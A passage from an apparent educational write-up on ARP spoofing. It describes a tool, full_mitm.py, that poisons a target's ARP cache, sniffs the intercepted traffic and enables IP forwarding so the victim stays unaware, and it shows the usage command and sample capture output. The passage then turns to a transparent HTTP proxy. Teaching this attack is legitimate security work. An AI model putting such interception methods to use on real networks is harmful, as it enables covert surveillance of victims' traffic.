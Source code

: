 We develop another utility capable of keeping a target's ARP cache table
poisoned by continuously sending spoofed ARP-request packets. In parallel, the
tool listens for traffic through the interface used to carry out the ARP
poisoning attack and logs it. In addition, this new tool configures IP
forwarding so that traffic between the target and the internet is not
disrupted, ensuring we remain stealthy.

Usage of this tool is also simple. The tool is called `full_mitm.py` and can be
found in the suplementary material. Like the previous, more information about
the usage can be obtained by execurting `./full_mitm.py -h`. We provide sample
output below:

```
./full_mitm.py -f -g enp0s3
Saving previous configuration to restore it later...
Forwarding IPv4 traffic to remain stealthy
net.ipv4.ip_forward = 1
Sniffing packets...
Ether / ARP who has 0.0.0.0 says 192.168.59.51
Renewed gateway entry in posioned ARP tables...
Ether / IP / ICMP 192.168.59.53 > 1.1.1.1 echo-request 0 / Raw
Ether / ARP who has 192.168.59.53 says 192.168.59.52
Ether / IP / ICMP 192.168.59.53 > 1.1.1.1 echo-request 0 / Raw
Ether / IP / ICMP 192.168.59.52 > 192.168.59.53 redirect host-redirect / IPerror / ICMPerror / Raw
Ether / IP / ICMP 1.1.1.1 > 192.168.59.53 echo-reply 0 / Raw
Ether / IP / ICMP 192.168.59.53 > 1.1.1.1 echo-request 0 / Raw
Ether / IP / ICMP 192.168.59.52 > 192.168.59.53 redirect host-redirect / IPerror / ICMPerror / Raw
Ether / IP / ICMP 192.168.59.53 > 1.1.1.1 echo-request 0 / Raw
Ether / IP / ICMP 1.1.1.1 > 192.168.59.53 echo-reply 0 / Raw
Renewed gateway entry in posioned ARP tables...
Ether / ARP who has 0.0.0.0 says 192.168.59.51
^CRestoring previous configuration...
Restoring IPv4 traffic forwarding...
net.ipv4.ip_forward = 0

Restoring entries in victims' ARP tables...
```

We can see how the attacker keeps sending ARP-request packets every few seconds
and how the victim performed a `ping` that was intercepted by the attacker. The
target received a response thanks to IPv4 forwarding and thus did not notice
its traffic was being monitored.

Also, as our tools became more sophisticated and powerful we added the ability
to restore both internal and external network configuration when a sniffing
session ends. That is, we restore both the previous configuration of the IPv4
forwarding directive on the attacker machine as well as the gateway ARP cache
entry on the target machine by sending a couple of legitimate ARP packets.


## HTTP proxy with zero client configuration using ARP poisoning

Now we will explore a practical, not necessarily blackhat application of ARP
spoofing. Suppose we need to introduce an HTTP proxy between computers in our
LAN and the internet but cannot change the network configuration of those
computers (i.e. we cannot configure them to forward traffic to our proxy but
rather we need to intercept it). Also suppose that DHCP is not available and
that the target machines have a statically configured gateway IP and that we
cannot replace this router with another that does proxying for us. In other
words, we want to set up a transparent HTTP proxy.
